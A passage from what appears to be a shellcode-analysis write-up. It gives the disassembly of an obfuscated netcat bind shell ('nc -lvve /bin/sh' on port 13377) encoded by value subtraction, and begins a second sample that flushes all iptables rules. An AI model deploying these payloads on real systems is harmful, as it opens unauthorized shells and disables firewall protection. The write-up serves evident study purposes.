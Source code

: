 The stack now looks like:
```
gdb$ x/14wx $esp
0xbffff0c8:	0xbffff0d8	0xbffff0e8	0xbffff0f8	0x00000000
0xbffff0d8:	0x6e69622f	0x2f2f2f2f	0x636e2f2f	0x00000000
0xbffff0e8:	0x76766c2d	0x69622f65	0x68732f6e	0x00000000
0xbffff0f8:	0x3170762d	0x37373333
```

 This modified shellcode resulted in 86 bytes which is around 134% of the original.

```nasm
08048080 <_start>:
 8048080:	31 c0                	xor    eax,eax
 8048082:	b8 11 11 11 11       	mov    eax,0x11111111
 8048087:	31 d2                	xor    edx,edx
 8048089:	68 44 44 48 48       	push   0x48484444 ; "HHDD"
 804808e:	68 3e 87 81 42       	push   0x4281873e ; "B>"
 8048093:	89 e2                	mov    edx,esp
 8048095:	50                   	push   eax
 8048096:	68 7f 40 84 79       	push   0x7984407f ; "y@"
 804809b:	68 76 40 73 7a       	push   0x7a734076 ; "zs@v"
 80480a0:	68 3e 7d 87 87       	push   0x87877d3e ; "}>"
 80480a5:	89 e1                	mov    ecx,esp
 80480a7:	50                   	push   eax
 80480a8:	68 40 40 7f 74       	push   0x747f4040 ; "t@@"
 80480ad:	68 40 40 40 40       	push   0x40404040 ; "@@@@"
 80480b2:	68 40 73 7a 7f       	push   0x7f7a7340 ; "zs@"
 80480b7:	89 e3                	mov    ebx,esp
 80480b9:	50                   	push   eax
 80480ba:	52                   	push   edx
 80480bb:	51                   	push   ecx
 80480bc:	53                   	push   ebx
 80480bd:	31 d2                	xor    edx,edx
 80480bf:	b0 0b                	mov    al,0xb
 80480c1:	31 c9                	xor    ecx,ecx
 80480c3:	b1 0b                	mov    cl,0xb
 80480c5:	89 c8                	mov    eax,ecx

080480c7 <sub_loop>:
 80480c7:	81 6c 8c 08 11 11 11 	sub    DWORD PTR [esp+ecx*4+0x8],0x11111111
 80480ce:	11 
 80480cf:	66 49                	dec    cx
 80480d1:	75 f4                	jne    80480c7 <sub_loop>
 80480d3:	89 e1                	mov    ecx,esp
 80480d5:	cd 80                	int    0x80
```

## Shellcode 2: shellcode-65.php
Location: [http://shell-storm.org/shellcode/files/shellcode-65.php](http://shell-storm.org/shellcode/files/shellcode-65.php)<br/>

### What it does
This shellcode flushes all rules using ipchains.  Note: I have made a slight modification to the original shellcode in which it will use iptables instead of ipchains.
